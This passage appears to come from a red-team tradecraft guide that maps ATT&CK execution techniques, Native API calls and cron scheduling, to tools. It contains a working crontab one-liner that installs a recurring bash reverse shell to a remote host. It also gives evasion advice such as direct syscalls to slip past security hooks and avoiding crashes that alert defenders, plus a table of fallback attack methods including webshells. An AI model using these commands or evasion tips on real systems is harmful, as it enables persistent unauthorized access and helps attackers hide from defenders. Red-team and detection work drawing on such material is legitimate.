 ### Native API (T1106)

This involves using native APIs to execute code.

**Python/C Libraries**:
```python
# Python using os.system
import os
os.system('id')

# Python using subprocess
import subprocess
subprocess.run(['whoami'], capture_output=True)
```

**Specific ATT&CK Mapping**:
- API calls for process creation implement T1106
- Native API usage can bypass shell monitoring

**Operational Security**:
- Consider using less common API calls to avoid detection
- Implement error handling to prevent crashes that might alert defenders
- Direct syscalls may evade userspace hooks in security products

### Scheduled Task/Job (T1053)

This involves using task scheduling functionality to execute code.

#### Cron (T1053.003)

Tools that use cron for execution:

**Crontab Manipulation**:
```bash
# Add a reverse shell to crontab
(crontab -l 2>/dev/null; echo "*/5 * * * * bash -c 'bash -i >& /dev/tcp/192.168.1.100/4444 0>&1'") | crontab -
```

**Specific ATT&CK Mapping**:
- Crontab manipulation directly implements T1053.003
- Scheduled tasks provide persistence and execution capabilities

**Detection Considerations**:
- Crontab changes may be captured in system logs
- Unusual scheduled tasks might be flagged in security audits
- Network connections from scheduled tasks may appear at predictable times

> **RED TEAM TIP:**
>
> When planning execution strategies, consider a matrix approach that maps multiple tools to each ATT&CK technique. This provides alternatives if one approach is blocked:
>
> | ATT&CK Technique | Primary Tool | Secondary Tool | Last Resort |
> |------------------|--------------|----------------|------------|
> | T1059.004 (Unix Shell) | Reverse Shell | Encoded Python | WebShell |
> | T1053.003 (Cron) | Direct crontab | Systemd Timer | At Job |
> | T1106 (Native API) | Python subprocess | Direct syscall | JNI Calls |
>
> This approach ensures operational resilience when defensive controls block your primary method.
